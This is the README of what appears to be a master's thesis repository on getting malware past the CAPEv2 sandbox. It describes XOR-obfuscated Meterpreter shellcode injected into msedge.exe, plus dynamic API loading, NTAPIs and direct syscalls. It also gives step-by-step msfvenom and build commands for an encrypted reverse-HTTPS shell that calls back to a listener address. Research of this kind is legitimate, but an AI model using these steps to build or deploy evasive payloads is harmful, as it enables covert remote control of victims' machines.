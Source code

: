# Repository Overview

This repository hosts the implementation of Ayoub's Master Thesis, which explores Malware Obfuscation and Evasion Techniques. The primary focus is on developing methods to bypass the CAPEv2 sandbox.

## Author

BOUHNINE Ayoub

## Repository Structure

The repository is organized as follows:

- **Custom Payloads:** Contains various custom payloads.
- **AVET Folder:** Hosts the AVET (AntiVirus Evasion Tool).
- **SysWhispers3 Folder:** Used for generating (or possibly statically embedding different payloads within AVET).

## Research Paper

The accompanying thesis paper is available for download in the [paper folder](./paper/thesis.pdf).

## Evasion Techniques

The samples, available on the directory `samples/` included in this repository use several evasion techniques:

- **Obfuscation:** A stageless Meterpreter x64 reverse HTTPS payload that employs a basic XOR encryption is used. This technique is implemented in all the samples.
- **Shellcode Injection:** an injection of the Meterpreter payload is performed into **msedge.exe**, this could fool security solutions since Microsoft Edge regularly perform HTTPS request, therefore the Meterpreter traffic will be hidden with the regular Ms Edge traffic. This is implemented in all the samples.
- **Basic API calls:** This is not an evasion tehcniques however, the sample implemeting this will serve as a baseline for other sample. This is implemented in the sample `Shellcode_injection`.
- **Dynamic API Loading:** This is a basic method used to hide the APIs from the Import Address Table. This will resolve the APIs by loading them dynamically. This is implemented in the sample `Shellcode_injection_dynamic_lib`.
- **NTAPIs:** This is a more advances tehcniques where we load the NTAPIs instead of the classical APIs dynamically. This could potentially bypass security solutions that does not hook the `ntdll.dll`. This is implemented in the sample `Shellcode_injection_NTAPIs`.
- **Evasion of API Hooks by Direct Syscalls:** This tehcniqeus is used to bypass the API hooking of classical APIs and NTAPIs by using a Direct Syscalls technique. This is implemented in the sample `Shellcode_injection_syscalls`

These techniques have been integrated by the author within the AVET framework available on this repo. For syscall generation, the tool **SysWhispers3** is used, available at: [SysWhispers3 on GitHub](https://github.com/klezVirus/SysWhispers3).

## Modification of the payload

The payload used is stageless Meterpreter x64 reverse HTTPS payload that employs a basic XOR encryption is used. This has to be replaced if you want to use your payload with the right IP address.

To do so:
- Generate your payload using **msfvenom** : `msfvenom -p windows/x64/meterpreter_reverse_https lhost=192.168.173.130 lport=443 -f c > payload.h`
- Take the file newly generated and give it as input to the executable `XOR_encryptor.exe`, this can be used with the following command : `.\XOR_encryptor.exe payload.h <output_file_name>` for example in our case the output filename is `buffer.h `
- Add the newly generated file into Visual Studio. Then include the file into the sample of your choice.
You should be ready to go !



## Utils

For xoring the payload we used ...
